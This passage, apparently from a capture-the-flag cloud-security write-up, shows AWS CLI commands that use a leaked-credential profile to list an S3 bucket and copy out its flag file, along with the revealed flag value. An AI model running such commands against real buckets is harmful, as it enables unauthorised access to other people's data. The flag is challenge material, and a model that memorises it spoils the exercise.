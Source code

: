   

Inside the bucket, through the following command `aws s3 ls s3://ecorp-client-data --profile s3leak` we can find that there is a **flag.txt** exists in bucket

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ aws s3 ls s3://ecorp-client-data --profile s3leak
2023-06-12 13:32:59       3473 ecorp_dr_logistics.csv
2023-06-12 13:33:00         32 flag.txt
2023-06-12 08:04:25          7 test.csv
```

  

Now we can copy the file named flag.txt through the following command `aws s3 cp s3://ecorp-client-data/flag.txt --profile s3leak ./` to our local directory

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ aws s3 cp s3://ecorp-client-data/flag.txt --profile s3leak ./
download: s3://ecorp-client-data/flag.txt to ./flag.txt
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ cat flag.txt
523dceadbd01555b40ad177433b311b3
```